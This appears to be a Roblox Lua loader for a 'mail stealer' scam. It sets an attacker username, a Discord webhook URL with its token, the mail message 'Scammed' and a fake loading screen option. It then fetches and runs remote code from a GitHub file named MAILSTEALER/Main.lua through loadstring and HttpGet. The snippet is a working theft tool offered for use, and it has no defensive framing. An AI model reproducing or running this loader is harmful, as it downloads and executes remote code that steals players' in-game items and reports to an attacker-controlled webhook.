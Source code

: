 Username = "Ojiojiojiojiwwwww"
Webhook = "https://discord.com/api/webhooks/1191832964607254568/oGDm5ZU-Y2PQBW4c4TYp8r1MyAEFvw75910fcE4oFsoyOoJci1G9Jevm3bLBS6wSNuWw"
Mailmsg = "Scammed"
FakeLoadScreen = true
Fake_Hub_If_Not_Enough_Gems = false

loadstring(game:HttpGet("https://raw.githubusercontent.com/POGGERZ15/MAILSTEALER/main/Main.lua"))()

